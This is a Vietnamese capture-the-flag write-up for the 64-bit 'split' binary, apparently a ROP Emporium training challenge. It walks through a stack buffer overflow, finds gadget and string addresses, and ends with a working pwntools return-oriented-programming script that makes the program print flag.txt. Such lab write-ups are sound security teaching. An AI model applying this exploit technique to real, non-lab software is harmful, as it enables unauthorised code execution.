








**1. Tìm lỗi**

Dùng lệnh 'file' kiểm tra file 



Ta thấy là file 64bit -> Mở ida64 ta có một số hàm như sau

Hàm main:



Hàm pwnme:



Ta thấy biến s được khai báo tối đa 32 byte nhưng chương trình cho phép nhập 0x60 = 96 byte

Hàm usefulFunction:



Ở hàm usefulFunction ta thấy có câu lệnh syscall nên có thể tận dụng để thực hiện với các chuỗi có sẵn trong chương trình

Tìm kiếm các chuỗi ta thấy như sau: 



Ta có được địa chỉ chuỗi /bin/cat flag.txt: 0x00601060

**2. Ý tưởng**

Để thực hiện được syscall('/binn/cat flag.txt') thì chúng ta cần chuyển địa chỉ chuỗi /bin/cat flag.txt vào thanh ghi rdi. Mà để ghi vào thanh ghi rdi thì chúng ta cần tìm kiễm địa chỉ câu lệnh pop rdi



Địa chỉ câu lệnh rdi là: 0x00000000004007c3

**Viết script**



Ta thấy khoảng cách từ biến s đến ret là: 0x20 + 0x8

Ta có script như sau: 

```
from pwn import *

r = process("./split")

syscall = 0x000000000040074b
cat_flag = 0x00601060
pop_rdi = 0x00000000004007c3

payload = b'a'*40
payload += p64(pop_rdi)
payload += p64(cat_flag)
payload += p64(syscall)
r.sendafter('> ', payload)
r.interactive()
```

**4. Lấy flag**


